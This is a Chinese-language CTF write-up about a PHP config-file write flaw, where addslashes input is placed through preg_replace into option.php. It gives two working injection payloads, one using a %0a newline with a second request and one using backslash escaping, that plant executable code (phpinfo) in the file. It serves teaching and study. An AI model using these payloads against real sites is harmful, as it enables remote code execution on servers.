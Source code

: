 # Challenge
index.php
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```
xxxxx/option.php
```php
$option='test';
```
# Solution
流程如下：
1. 对传入的option参数进行addslashes，比如有单引号`'`，会变成`\'`
2. 通过正则匹配xxxxx/option.php中的`$option='xxx';`，将xxx的内容替换为经第一步处理的值
3. 替换完成，将其写入xxxxx/option.php。

场景： 用于写入配置文件等。

## 法一
先访问：
```
?option=aaa';%0aphpinfo();//
```
经过addslashes后，$str值为 `aaa\';%0aphpinfo();//`

进行正则匹配并写入文件，xxxxx/option.php的内容变为:
```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```

再访问：
```
?option=xxx
```
正则匹配时，会将两个单引号里的内容即 `aaa\` ，替换为 `xxx`，此时xxxxx/option.php的内容变为
```php 
<?php
$option='xxx';
phpinfo();//';
?>
```

最后访问：/xxxxx/option.php

## 法二
访问：
```
?option=aaa\';phpinfo();//
```
经过addslashes后，$str为 `aaa\\\';phpinfo();//`

经过preg_replace正则匹配后，对`\`做了转义处理,xxxxx/option.php的内容变为：
```
<?php 
$option='aaa\\';phpinfo();//';
?>
```

最后访问：/xxxxx/option.php

# Refference 
+ p神的小秘圈
+ [l3m0n：小密圈专题(1)-配置文件写入问题](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)
+ [[CVE-2016-7565]Exponent CMS 2.3.9 配置文件写入 getshell分析 ](https://chybeta.github.io/2017/12/11/CVE-2016-7565-Exponent-CMS-2-3-9-%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5-getshell%E5%88%86%E6%9E%90/)

# By JrXnm

操作tql, 首先理解为什么要转义,是在字符串中将特殊字符前面加`\`消除它的特殊性.(比如想输入$怕连着后面被识别成变量,那么直接在\$就能直接匹配成$).

第二个方法是利用将变量$str拼接到preg_replace第二个参数中,而这第二个参数是一个标准输入字符串,对特殊字符也是要转义的.所以它就会将`aaa\\\';phpinfo();//` 中的第一个\认为是转义第二个\,所以识别的只有两个\

第一个方法,因为是匹配`$option='任意内容';` 所以如果输入%0a添加换行后,第二次preg_replace只会匹配到第一行的`option='aaa\';` 替换后就会把\给替换掉,这样就符合语法了.